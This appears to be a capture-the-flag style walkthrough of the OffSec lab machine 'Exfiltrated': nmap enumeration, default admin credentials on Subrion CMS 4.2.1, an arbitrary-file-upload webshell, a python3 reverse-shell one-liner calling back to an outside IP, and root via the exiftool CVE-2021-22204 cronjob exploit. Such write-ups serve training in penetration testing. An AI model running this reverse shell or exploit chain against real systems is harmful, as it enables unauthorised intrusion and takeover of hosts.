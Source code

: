 # Exfiltrated

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:24 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed `nmap` scan to enumerate for me as well:

```
$ sudo nmap -p 22,80 -sC -sV -O -T4 192.168.175.163                         
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:27 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

So there's a `/panel` directory present, and we can enumerate that first:

### Default Creds --> Subrion RCE

The `/panel` directory shows us a basic login page:

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. This software was Subrion CMS v4.2.1, which had a few public exploits:

```
$ searchsploit subrion 4.2.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting    | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                     | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                  | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                   | php/webapps/45150.txt
----------------------------------------------------------- ---------------------------------
```

We can use the Arbitrary File Upload to get a webshell on the machine:

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

From here, we can easily convert this to a reverse shell on our machine using a `python3` reverse shell.&#x20;

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Exiftool RCE

I ran `linpeas.sh` on the machine to enumerate for me, and it picked up on cronjobs running as the `root` user:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Here's the content of the file:

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

This program uses `exiftool` to get the metadata of the image and redirects it to a file. We can find the version of `exiftool` being used here by using it on any file:

```
www-data@exfiltrated:/opt$ exiftool image-exif.sh 
ExifTool Version Number         : 11.88
File Name                       : image-exif.sh
Directory                       : .
File Size                       : 437 bytes
File Modification Date/Time     : 2021:06:10 12:06:15+00:00
File Access Date/Time           : 2023:07:01 10:24:06+00:00
File Inode Change Date/Time     : 2021:08:27 12:33:35+00:00
File Permissions                : rwxr-xr-x
File Type                       : bash script
File Type Extension             : sh
MIME Type                       : text/x-bash
```

This version is vulnerable to an RCE exploit by injecting code within the image. When `exiftool` is run on the malicious image, code would be executed as well. Since we can write to the `/var/www/html/subrion/uploads` directory, this means that we just need to create and put a malicious `.jpg` file there.

Here's a repository that can be used:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

We just need to edit `exploit.py` to have the relevant IP address and port. Afterwards, we can grab any sample image and run the exploit to update it with the payload:

```
$ python3 exploit.py
    1 image files updated
```

Afterwards, transfer it to the `/var/www/html/subrion/uploads` directory and wait for a bit. Once the cronjob runs, we will get a reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Rooted!
